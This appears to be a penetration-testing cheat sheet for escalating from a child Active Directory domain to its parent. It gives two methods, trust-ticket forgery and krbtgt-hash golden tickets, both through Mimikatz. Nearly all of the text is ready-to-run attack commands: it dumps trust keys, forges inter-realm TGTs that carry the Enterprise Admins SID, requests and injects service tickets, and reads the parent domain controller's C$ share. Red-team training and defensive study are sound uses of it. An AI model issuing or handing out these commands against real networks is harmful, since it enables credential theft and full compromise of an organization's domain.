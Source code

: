 #### Child to Parent using Trust Tickets



**1. Look for \[In] trust key from child to parent:**

```
# Look for [In] trust key from child to parent
Invoke-Mimikatz -Command '"lsadump::trust /patch"'      
```

**2. Create the inter-realm TGT:**

```
# Create the inter-realm TGT
Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:<domain> /sid:S-1-5-21-1874506631-3219952063-538504511 /sids:S-1-5-21-280534878-1496970234-700767426-519 /rc4:<hash> /service:krbtgt /target:<domain> /ticket:C:\<directory>\trust_tkt.kirbi"'
```

**3. Get a TGS for a service in the target domain by using the forged trust ticket.:**

```
# Get a TGS for a service (CIFS below)
.\asktgs.exe C:\<directory>\trust_tkt.kirbi CIFS/mcorp-dc.corporate.local
```

**4. Use the TGS to access the targeted service and check:**

```
# Use the TGS
.\kirbikator.exe lsa .\CIFS.mcorp-dc.corporate.local.kirbi
# Check
ls \\mcorp dc.corporate.local\c$
```

#### Child to Parent using Krbtgt Hash



**1. Look for \[In] trust key from child to parent:**

```
# Look for [In] trust key from child to parent
Invoke-Mimikatz -Command '"lsadump::trust /patch"'      
```

**2. Create the inter-realm TGT:**

```
# Create the inter-realm TGT
Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:<domain> /sid:S-1-5-21-1874506631-3219952063-538504511 /sids:S-1-5-21-280534878-1496970234-700767426-519 /krbtgt:<hash> /ticket:C:\test\krbtgt_tkt.kirbi"'
```

**3. Inject the ticket using mimikatz:**

```
# Inject the ticket
Invoke-Mimikatz -Command '"kerberos::ptt C:\test\krbtgt_tkt.kirbi"'
# Check
gwmi -class win32_operatingsystem -ComputerName mcorp-dc.corporate.local
```
